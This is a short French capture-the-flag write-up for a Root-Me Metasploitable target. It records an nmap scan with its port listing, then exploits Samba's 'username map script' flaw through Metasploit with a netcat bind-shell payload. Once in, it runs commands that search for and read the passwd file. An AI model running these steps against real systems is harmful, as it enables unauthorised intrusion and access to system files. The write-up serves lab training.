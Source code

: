 # Metasploitable

## Trouver IPv4 de la machine 

ping -c 3 ctf20.root-me.org<br>

## Scan des ports pour trouver service(s) vulnérable(s)

nmap -sV -Pn 163.172.195.228

PORT     STATE    SERVICE     VERSION<br>
21/tcp   open     ftp         ProFTPD 1.3.1<br>
22/tcp   open     ssh         OpenSSH 4.7p1 Debian<br> 8ubuntu1 (protocol 2.0)<br>
23/tcp   open     telnet      Linux telnetd<br>
25/tcp   filtered smtp<br>
53/tcp   open     domain      ISC BIND 9.4.2<br>
80/tcp   open     http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)<br>
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)<br>
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)<br>
3306/tcp open     mysql       MySQL 5.0.51a-3ubuntu5<br>
5432/tcp open     postgresql  PostgreSQL DB 8.3.0 - 8.3.7<br>
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)<br>
8180/tcp open     http        Apache Tomcat/Coyote JSP engine 1.1<br>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel<br>

## Pentest des sercices

Après des tests il s'avère que le service vulnérable à une RCE est samba. Et en particulier sur le port 445<br>
nmap --script=vuln -Pn -p 445 163.172.195.228<br>
msfconsole<br>
search samba<br>
use exploit/multi/samba/usermap_script  => Samba "username map script" Command Execution<br>

## Configuration du payload 

set rhosts 163.172.195.228<br>
set rport 445<br>
set payload cmd/unix/bind_netcat<br>
run<br>

## CLI dans la machine 

whoami<br>
pwd<br>
find / -name passwd<br>
cat passwd

flag = ...

